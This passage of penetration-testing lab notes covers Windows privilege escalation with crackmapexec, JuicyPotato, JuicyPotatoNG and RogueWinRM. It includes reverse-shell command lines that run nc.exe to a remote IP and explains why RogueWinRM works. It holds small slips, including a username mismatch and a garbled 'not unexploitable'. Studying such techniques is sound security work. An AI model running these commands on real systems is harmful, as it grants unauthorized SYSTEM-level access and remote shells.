 5.- Finally if evertyhing went as planned we can use crackmapexe in order to test account privileges:

```bash
crackmapexec smb 10.11.1.31 -u 'shuciran2' -p 'shuciran123'
SMB         10.11.1.31      445    RALPH            [*] Windows Server 2016 Standard 14393 x64 (name:RALPH) (domain:ralph) (signing:False) (SMBv1:True)
SMB         10.11.1.31      445    RALPH            [+] ralph\shuciran:shuciran123 (Pwn3d!)

```

At this point all that we need to do is execute evilwin-rm with this new user which is now NT Authority\\System

### Getting a reverse shell:

It is possible to get a shell abusing of juicypotato:
```bash
juicypotato.exe -l 1337 -c "{CBC04AF1-25C7-4A4D-BB78-28284403510F}" -p c:\windows\system32\cmd.exe -a "/c C:\Temp\nc.exe -e cmd 10.10.14.2 443" -t *
```

## JuicyPotatoNG (Windows Server 2019)

^ab2891

Downloading this script we can get the same results than JuicyPotato but this works really well for Windows Server 2019 [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG/releases/tag/v1.1)

We need to upload it to the machine and execute it as follows:
```bash
JuicyPotatoNG.exe -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Temp\nc.exe -e cmd 10.10.14.2 1234"
```
Examples:
[[Scramble#^ee02ee]]

## RogueWinRM

We can use the web shell or the command injection input to check for the assigned privileges of the compromised account and confirm we hold both privileges of interest for this task:

![Webshell impersonate privileges](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/4603506a36f4bbda602dc67cdc845d9f.png)  

To use RogueWinRM, we first need to upload the exploit to the target machine.

The RogueWinRM exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port 5985 using SYSTEM privileges. Port 5985 is typically used for the WinRM service, which is simply a port that exposes a Powershell console to be used remotely through the network. Think of it like SSH, but using Powershell.

#Note If WinRM is active on the machine (port 5985/tcp) RogueWinRM is not unexploitable. 

If, for some reason, the WinRM service isn't running on the victim server, an attacker can start a fake WinRM service on port 5985 and catch the authentication attempt made by the BITS service when starting. If the attacker has SeImpersonate privileges, he can execute any command on behalf of the connecting user, which is SYSTEM.
